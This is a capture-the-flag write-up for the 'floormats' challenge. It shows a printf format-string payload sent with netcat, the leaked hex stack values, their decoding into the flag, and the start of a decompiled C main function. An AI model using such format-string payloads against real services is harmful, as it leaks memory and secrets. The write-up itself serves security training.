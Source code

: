 After a while I found that first location of the flag `%18$p` <br>
payload:  `%23$p %22$p %22$p %21$p %20$p %19$p %18$p`

```bash
$ nc floormats.ctf.intigriti.io 1337
Welcome to the Floor Mat store! It's kind of like heaven.. for mats.

Please choose from our currently available floor mats

Note: Out of stock items have been temporarily delisted

Please select a floor mat:

1. Cozy Carpet Mat - $10
2. Wooden Plank Mat - $15
3. Fuzzy Shag Mat - $20
4. Rubberized Mat - $12
5. Luxury Velvet Mat - $25

Enter your choice:
6

Please enter your shipping address:
%23$p %22$p %22$p %21$p %20$p %19$p %18$p

Your floor mat will be shipped to:

0x7d66376e3172 0x705f37753062345f 0x705f37753062345f 0x6e7234775f793368 0x375f7968775f3537 0x3468375f30357b49 0x5449524749544e49
```

```
0x7d66376e3172 0x705f37753062345f 0x705f37753062345f 0x6e7234775f793368 0x375f7968775f3537 0x3468375f30357b49 0x5449524749544e49
```
Decode these hex and reverse them. then get the flag. 
[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')&input=MHg3ZDY2Mzc2ZTMxNzIgMHg3MDVmMzc3NTMwNjIzNDVmIDB4NzA1ZjM3NzUzMDYyMzQ1ZiAweDZlNzIzNDc3NWY3OTMzNjggMHgzNzVmNzk2ODc3NWYzNTM3IDB4MzQ2ODM3NWYzMDM1N2I0OSAweDU0NDk1MjQ3NDk1NDRlNDk)

> Flag: INTIGRITI{50_7h475_why_7h3y_w4rn_4b0u7_p_4b0u7_pr1n7f}
{: .prompt-tip }

#### Decompiled source code - floormats
```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  int local_128;
  int local_124;
  __gid_t local_120;
  int local_11c;
  char *local_118;
  FILE *local_110;
  char *local_108 [4];
  char *local_e8;
  char *local_e0;
  char local_d8 [64];
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  local_108[0] = "1. Cozy Carpet Mat - $10";
```